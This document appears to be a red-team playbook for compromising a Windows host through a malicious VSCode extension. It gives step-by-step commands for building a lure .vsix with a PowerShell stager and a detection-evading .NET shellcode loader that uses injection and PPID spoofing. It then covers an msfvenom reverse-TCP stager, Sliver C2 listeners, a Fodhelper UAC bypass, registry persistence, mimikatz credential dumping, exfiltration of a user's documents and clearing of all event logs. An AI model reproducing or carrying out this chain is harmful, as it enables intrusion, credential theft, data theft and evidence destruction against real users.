

# VSCode Malicious Extension – Red Team Implant Documentation

## Overview
This technique deploys a malicious VSCode extension (.vsix) to execute a staged payload via PowerShell,
using Sliver C2 for command and control.


---

## Prerequisites

Install required Node.js tooling:

```bash
npm install -g yo generator-code @vscode/vsce
```

---

## 1. Scaffold the VSCode Extension

```bash
yo code
```

When prompted:
- **Extension type:** TypeScript (recommended)
- **Name:** Choose a convincing lure name
- **Identifier:** Match the name

---

## 2. Edit the Extension Logic

Open `src/extension.ts` and update the embedded PowerShell command to reference:
- Your `.ps1` filename
- Your C2 listener IP address

---

## 3. Compile the Extension Locally

```bash
npm install
npm run compile
```

---

## 4. Package to VSIX

```bash
vsce package
# Output: <ExtensionName>.vsix
```

---

## 5. Build the .NET Loader (Sliver DLL)

1. Open the `.NET` loader project in Visual Studio.
2. Confirm the **remote bin path** and **C2 IP** are correct in the loader config.
3. Compile the project — output is `sliverloader.dll`.

Description:
loader designed to execute a remote payload while evading security detection. It works by downloading shellcode from a C2 (Command & Control) server and injecting it into a legitimate system process, like rundll32.exe. To hide its tracks, it uses PPID Spoofing to make the new process appear as if it was started by a trusted system component (RuntimeBroker)

Convert the DLL to a Base64 string for embedding in the PowerShell stager:

After the build process the .NET Assembly needs to be loaded into the Arduino PS1 File
```powershell
Get-Content -Encoding Byte -Path .\sliverloader.dll | clip
```

4. Paste the copied bytes into **CyberChef** with the following recipe:
   - `From Decimal` (Line feed delimiter)
   - `To Base64`
5. Copy the Base64 output and paste it into your `.ps1` stager script.

The stager script is fetched at runtime and is what loads the next stage of malware
---

## 6. Generate the Sliver Stager Binary

Use `msfvenom` to generate a raw stager that connects back to Sliver's stage listener:

```bash
msfvenom --payload windows/x64/custom/reverse_tcp \
  LHOST=192.168.1.1 \
  LPORT=1234 \
  LURI=/hello.woff \
  --format raw \
  --out stager.bin
```

---

## 7. Configure Sliver C2

Create a new Sliver profile and start the stage listener:

```bash
profiles new --mtls 210.210.210.110 --format shellcode local

stage-listener --url tcp://210.210.210.110:443 --profile local --prepend-size

mtls
```

> **Note:** Ensure the LHOST/LPORT in `msfvenom` matches the `stage-listener` address.

---

## 8. Host the Payload Files

Serve the following files from a Python HTTP server (or equivalent):
- `stager.bin`
- `<stager>.ps1`

Confirm all callback addresses in the `.ps1` script point to the correct C2 listener.

```bash
python3 -m http.server 8080
```

---

## 9. Deploy the Extension to the Target

Transfer the `.vsix` file to the target host and install it manually via VSCode:

```
Extensions panel → ··· menu → Install from VSIX...
```

Or via CLI:

```bash
code --install-extension <ExtensionName>.vsix
```

---

## 10 Follow On Actions

Sliver: Load extensions onto target: 
```bash
#Sliver Prompt:
Armory install mimikatz --proxy http://10.10.0.100:8080

```

## 11 Priv ESC:

generate a new payload and sliver and upload to target

```bash
generate -mtls <IP>
upload /root/<Binary> /Destination
```
Fodhelper UAC Bypass:
```Powershell
reg add "HKCU\Software\Classes\ms-settings\shell\open\command" /d "C:\Users\Public\Arduino.exe" /f
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -PropertyType String -Force
start-process fodhelper.exe
```


## 12 Persitance (After switching sessions):

Add the VSIX file to the Admins extension folder then put VSCODE on Startup

```Powershell
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "VSCode" -Value '"C:\Program Files\Microsoft VS Code\Code.exe"'
```

## 13 Follow on Actions
remove VSIX File
```Powershell
remove-item "C:\<Path to vsix File"
```
enumerate shares with sliver and run mimikatz in sliver:
```bash
sliver > mimikatz privilege::debug
sliver > mimikatz sekurlsa::logonpasswords
sliver > mimikatz sekurlsa::tickets
```
## 14 Data Staging and exfil, and log clearing:
copy users home directory to a zip file and 
```Powershell
Compress-Archive -Path "C:\Users\David.Taylor\Documents\*" -DestinationPath "C:\Users\Public\documents.zip"
# in sliver:
sliver> download "C:\Users\Public\documents.zip"
```
Clear Event View Logs

```Powershell
wevtutil el | ForEach-Object { wevtutil cl $_ }
```
```bash
#kill sessions and end of op
sessions -k <session>
```